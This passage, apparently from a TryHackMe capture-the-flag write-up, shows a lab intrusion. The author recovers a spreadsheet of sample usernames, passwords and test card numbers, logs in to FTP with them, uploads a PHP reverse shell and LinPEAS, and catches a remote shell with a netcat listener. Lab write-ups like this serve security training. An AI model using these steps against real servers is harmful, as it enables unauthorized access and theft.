 The XLSX file contains the following info:

| Customer Name   | Username       | Password          | Credit card number  | CVC |
|-----------------|----------------|-------------------|---------------------|-----|
| Par. A. Doxx    | paradox        | ShibesAreGreat123 | 4111 1111 4555 1142 | 432 |
| 0day Montgomery | 0day           | OllieIsTheBestDog | 5555 3412 4444 1115 | 642 |
| Muir Land       | muirlandoracle | A11D0gsAreAw3s0me | 5103 2219 1119 9245 | 737 |


While exploring the above, I had an `nmap` scan running that discovered HTTP, FTP, and SSH services on their default ports. I tried the usernames and passwords for SSH with no luck, and then tried to anonymous login to FTP with no luck. The paradox:ShibesAreGreat123 credentials did work for FTP, and I was able to put a PHP reverse shell at /rev.php on the web server. I also added a LinPEAS just in case I needed it later.

```
──(kali㉿heart)-[~/THM]
└─$ ftp 10.10.65.108
Connected to 10.10.65.108.
220 (vsFTPd 3.0.3)
Name (10.10.65.108:kali): paradox
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 48       48             24 Nov 08 21:25 backups
-rw-r--r--    1 0        0           65591 Nov 17 20:42 hallway.jpg
-rw-r--r--    1 0        0            1770 Nov 17 20:42 index.html
-rw-r--r--    1 0        0             576 Nov 17 20:42 main.css
-rw-r--r--    1 0        0            2511 Nov 17 20:42 overpass.svg
226 Directory send OK.
ftp> put rev.php 
local: rev.php remote: index.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
2512 bytes sent in 0.00 secs (27.2231 MB/s)
ftp> put linpeas.sh
local: linpeas.sh remote: linpeas.sh
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
319969 bytes sent in 0.58 secs (537.4261 kB/s)
```
Listening with `nc -nlvp 8080` in the terminal, I established a shell when I opened the the /rev.php webpage.

```
┌──(kali㉿heart)-[~]
└─$ nc -nlvp 8080
Listening on 0.0.0.0 8080
Connection received on 10.10.65.108 53812
Linux ip-10-10-65-108 4.18.0-193.el8.x86_64 #1 SMP Fri May 8 10:59:10 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 22:22:04 up  1:09,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: cannot set terminal process group (889): Inappropriate ioctl for device
sh: no job control in this shell
sh-4.4$ whoami 
```